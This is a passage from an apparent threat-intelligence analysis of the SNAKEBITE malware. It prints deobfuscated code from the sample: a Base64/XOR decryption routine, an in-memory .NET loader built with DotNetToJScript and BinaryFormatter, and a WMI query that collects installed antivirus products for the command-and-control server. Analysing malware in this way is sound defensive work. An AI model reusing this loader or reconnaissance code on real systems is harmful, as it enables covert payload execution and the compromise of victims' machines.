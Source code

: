 ```{javascript}
			if (i >= bytes.length) {
				j = key.length;
			}
		}
	}
	return res.join("")
}
function PMKDTYDd(bsix){
	return QeTPECI(keeee,qdeH(bsix))
}
var keeee = QeTPECI("dDsB",qdeH("mdn"+"n1n"+"Wbl"+"Pu1"));
```

<p style="text-align: center;">The Base64 and XOR decryption sequence</p>


SNAKEBITE features a modified build of Starfighters (an in-memory launcher that has also been included in the Koadic framework as an implant) which seeks to deploy the MEMFANG implant directly into memory. The modified payload is a .NET assembly converted to javascript using [<u>DotNetToJScript</u>](https://github.com/tyranid/DotNetToJScript).

```{javascript}
var dash = "";
var enc = new ActiveXObject("System.Text.ASCIIEncoding");
var length = enc["GetByteCount_2"](b);
var ba = enc["GetBytes_4"](b);
var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
ba = transform["TransformFinalBlock"](ba, 0, length);
var ms = new ActiveXObject("System.IO.MemoryStream");
ms.Write(ba, 0, (length / 4) * 3);
ms.Position = 0;
dash = ms;

var so = <payload>

var stm = Func4(so.split(".").join(''));
var fmt = new ActiveXObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");
var al = new ActiveXObject("System.Collections.ArrayList");
var d = fmt["Deserialize_2"](dash);
al.Add(undefined);
var o = d["DynamicInvoke"](al.ToArray())["CreateInstance"](ec);
```

<p style="text-align: center;">Deobfuscated Starfighters snippet from a variant of SNAKEBITE</p>

Starfighters implementation in SNAKEBITE requires setting the .NET version before execution which is achieved by checking for the subfolders in .NET installation directory using _FSO.GetFolder(FSO.GetSpecialFolder(0)+"\Microsoft.NET\Framework\").SubFolders;_. Once the .NET version is set, information regarding the installed Antivirus product is collected by querying the WMI service and later sent to the C2 server.  
  
_var objWMIService = GetObject("winmgmts:\\.\root\SecurityCenter2");_  
_var colItems = objWMIService.ExecQuery("Select * From AntiVirusProduct", null, 48);_  
